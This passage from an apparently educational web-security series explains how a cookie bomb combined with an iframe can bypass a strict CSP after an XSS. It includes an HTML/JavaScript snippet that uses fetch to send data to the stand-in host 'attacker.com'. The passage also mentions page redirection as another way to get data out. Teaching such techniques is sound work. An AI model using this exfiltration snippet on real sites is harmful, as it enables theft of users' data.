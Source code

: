 ```
Let's assume that the original page has a very strict CSP, with all directives set to `'self'`, except for `script-src` which has an additional `unsafe-inline`. And let's say we found an XSS vulnerability, so we can execute code.

But the problem is, our data cannot be sent out! Because of CSP, all external links are blocked. At this point, we can use a cookie bomb to bombard the `/test` page first, and then put the `/test` page into an iframe.

Once it's inside the iframe, due to the same-origin policy, I can directly access the `/test` page, which does not have CSP. Therefore, requests can be sent from this page, as shown in the following example:

``` html
<iframe id=f src="/test" onload=run()></iframe>
<script>
  function run() {
    f.contentWindow.fetch('https://attacker.com?data=...')
  }
</script>
```

Methods like this bypass CSP restrictions by combining DoS with iframes.

(By the way, CSP currently cannot achieve "blocking all external connections". If you only need to send requests externally, there are other faster methods, such as using `location=...` for page redirection, and so on.)

## Conclusion

In this article, we have seen another way to use cookies as a means of executing DoS attacks and preventing web pages from loading. Although this vulnerability itself does not have a significant impact, and many companies do not consider it a security vulnerability, when combined with other techniques, it can become a more impactful vulnerability.

This concludes Chapter 4, "Attacking Other Websites Across Boundaries." In the recent articles, we first understood the difference between origin and site, then learned about CORS settings and the consequences of misconfigurations. We also explored CSRF and same-site cookies, and finally discussed the attacks that can be executed after gaining control over same-site.

Starting from the next article, we will enter Chapter 5: "Other Interesting Frontend Security Topics."

This article is adapted from: [DoS Attack Using Cookie Features: Cookie Bomb](https://blog.huli.tw/2021/07/10/cookie-bomb/)
